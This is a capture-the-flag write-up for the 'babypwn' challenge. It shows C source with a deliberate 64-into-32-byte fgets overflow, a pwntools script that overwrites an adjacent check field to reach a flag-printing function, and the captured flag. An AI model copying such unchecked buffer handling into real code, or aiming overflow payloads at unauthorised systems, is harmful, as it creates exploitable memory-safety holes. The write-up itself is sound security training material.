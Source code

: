# babypwn

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Solution

Just a simple and easy pwn challenge.

Given a C source code.

<pre class="language-c" data-title="babypwn.c" data-line-numbers><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;string.h>
#include &#x3C;unistd.h>

<strong>struct __attribute__((__packed__)) data {
</strong>  char buff[32];
  int check;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data name;
  ignore(); /* ignore this function */

  printf("What's your name?\n");
  fgets(name.buff, 64, stdin);
  sleep(2);
  printf("%s nice to meet you!\n", name.buff);
  sleep(2);
  printf("Binary exploitation is the best!\n");
  sleep(2);
  printf("Memory unsafe languages rely on coders to not make mistakes.\n");
  sleep(2);
  printf("But I don't worry, I write perfect code :)\n");
  sleep(2);

<strong>  if (name.check == 0x41414141) {
</strong>    get_flag();
  }

  return 0;
}

</code></pre>

The program wants us to input a name. Line 41 shows that `if (name.check == 0x41414141)` is true, it will reveal a flag. So basically we need to input 0x41414141, but the function at line 5 says that it has a 32 size of buffer. We need to fill up the buffer first, than put 0x41414141, combine them as one payload as the script below.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *

rem = remote('babypwn.wolvctf.io', 1337)
payload = b'A' * 32 + p32(0x41414141)

rem.sendline(payload)

print(rem.recvall().decode())
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

wctf{pwn\_1s\_th3\_best\_Categ0ry!}
